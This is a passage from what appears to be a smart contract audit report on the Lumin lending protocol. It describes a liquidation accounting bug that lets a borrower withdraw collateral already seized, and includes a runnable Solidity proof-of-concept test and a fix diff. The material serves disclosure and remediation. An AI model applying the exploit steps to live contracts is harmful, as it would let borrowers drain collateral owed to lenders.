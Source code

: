 In `AssetManager::assetTransferOnLoanAction` in the `if (action == AssetActionType.Seize)` statement, the transferred amount is only subtracted from `userDepositFrom.lockedAmount`, but it should have also been subtracted from `userDepositFrom.depositAmount` as well. This means that a borrower's collateral balance won't be decreased on liquidation, even though the loan shareholders will receive most of the collateral.

Here is an executable Proof of Concept unit test that demonstrates the vulnerability (you can add this in the end of your `LoanManager.Repay` test file):

```solidity
function test_LiquidateExploit() public {
    // because of the `setUp` method, at this point Bob has taken a loan from Alice through Lumin
    uint256 bobDeposit = wrappedAssetManager.depositOf(assetId[1], bob).depositAmount;

    // make loan expire
    vm.warp(block.timestamp + 300 days + 1);
    // random user liquidates Bob's loan, so collateral (asset[1]) should be transferred to the lender
    vm.prank(0x1111111111111111111111111111111111111111);
    wrappedLoanManagerDelegator.liquidate(1);

    // Bob can withdraw his whole deposit even though part of it was used as collateral and was liquidated
    uint256 bobCollateralWalletBalance = mockERC20Token[1].balanceOf(bob);
    vm.prank(bob);
    wrappedAssetManager.assetDepositWithdraw(assetId[1], IAssetManager.AssetActionType.Withdraw, bobDeposit);

    assertEq(mockERC20Token[1].balanceOf(bob) - bobCollateralWalletBalance, bobDeposit);
}
```

## Recommendations

Change the code in `assetTransferOnLoanAction` in the following way:

```diff
else if (action == AssetActionType.Seize) {
        userDepositFrom.lockedAmount -= amount;
+       userDepositFrom.depositAmount -= amount;
        userDepositTo.depositAmount += amount;
    }
```

# [H-01] Disabled lender's loan configuration can be used by a borrower

## Severity

**Impact:**
Medium, as a borrower can use a disabled loan configuration but it will still work as a normal loan, so no lender value loss
